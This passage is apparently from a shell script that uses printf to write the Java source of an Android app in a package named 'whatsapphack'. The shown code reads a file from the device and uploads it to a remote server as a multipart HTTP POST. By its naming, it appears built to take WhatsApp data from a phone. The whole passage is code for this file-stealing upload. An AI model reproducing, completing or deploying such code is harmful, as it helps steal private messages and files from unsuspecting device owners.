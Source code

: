 printf "            outputStream = new DataOutputStream(connection.getOutputStream());\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            outputStream.writeBytes(twoHyphens + boundary + lineEnd);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            outputStream\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                    .writeBytes(\"Content-Disposition: form-data; name=%s\"uploadedfile%s\";filename=%s\"\"\n" $lazy $lazy $lazy >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "                            + pathToOurFile + \"%s\"\" + lineEnd);\n" $lazy >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            outputStream.writeBytes(lineEnd);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            bytesAvailable = fileInputStream.available();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            bufferSize = Math.min(bytesAvailable, maxBufferSize);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            buffer = new byte[bufferSize];\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            bytesRead = fileInputStream.read(buffer, 0, bufferSize);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            while (bytesRead > 0) {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                outputStream.write(buffer, 0, bufferSize);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                bytesAvailable = fileInputStream.available();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                bufferSize = Math.min(bytesAvailable, maxBufferSize);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "                bytesRead = fileInputStream.read(buffer, 0, bufferSize);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            }\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            outputStream.writeBytes(lineEnd);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            outputStream.writeBytes(twoHyphens + boundary + twoHyphens + lineEnd);\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            int serverResponseCode = connection.getResponseCode();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            String serverResponseMessage = connection.getResponseMessage();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "            fileInputStream.close();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            outputStream.flush();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "            outputStream.close();\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "    }\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "}\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
